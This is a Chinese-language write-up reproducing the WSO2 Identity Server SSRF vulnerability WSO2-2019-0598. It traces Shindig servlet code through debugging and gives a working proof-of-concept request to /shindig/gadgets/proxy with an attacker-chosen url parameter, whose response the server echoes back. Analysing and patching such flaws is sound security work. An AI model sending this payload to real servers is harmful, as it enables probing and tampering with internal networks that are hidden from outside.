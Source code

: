 # 

# WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

```
WSO2 Identity Server 5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0
WSO2 IS as Key Manager 5.3.0 , 5.5.0 , 5.6.0 , 5.7.0
```

## 环境搭建

https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip

## 漏洞复现

根据官方描述，漏洞造成的原因主要是 shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![](./images/202205241706233.png)

下载源码启动环境，在IDEA中调试

![](./images/202205241706823.png)

![](./images/202205241707257.png)

根据官方描述，在全局搜索 shindig 相关代码

![](./images/202205241707162.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![](./images/202205241707337.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![](./images/202205241707039.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`

![](./images/202205241707053.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与 Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![](./images/202205241707509.png)

但断点调试过程中，却发现这个点是利用失败的

![](./images/202205241707755.png)

![](./images/202205241708844.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![](./images/202205241708016.png)

发送请求包，打断点看一下处理流程

```
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中

```
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到`org.apache.shindig.gadgets.servlet.ProxyHandler`

![](./images/202205241708606.png)

`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![](./images/202205241709066.png)

接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![](./images/202205241709229.png)

![](./images/202205241709438.png)

最后回显至页面中, 造成存在回显的SSRF

![](./images/202205241709588.png)

![](./images/202205241709610.png)
